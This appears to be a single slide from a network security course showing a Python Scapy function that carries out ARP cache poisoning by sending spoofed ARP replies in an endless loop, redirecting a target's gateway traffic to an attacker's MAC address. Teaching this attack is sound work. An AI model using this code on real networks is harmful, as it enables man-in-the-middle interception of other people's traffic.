

Network (cont.)
ARP Cache Poisoning with Scapy (cont.)
A function to perform ARP cache poisoning will look like the following:
def do_poison_arp(attacker_mac, target_gw_ip,
        target_mac, target_ip):
    while True:
        send(ARP(hwsrc=attacker_mac,
                    psrc=target_gw_ip,
                    hwdst=target_mac,
                    pdst=target_ip
                   ),
              verbose=False)
        sleep(3)
115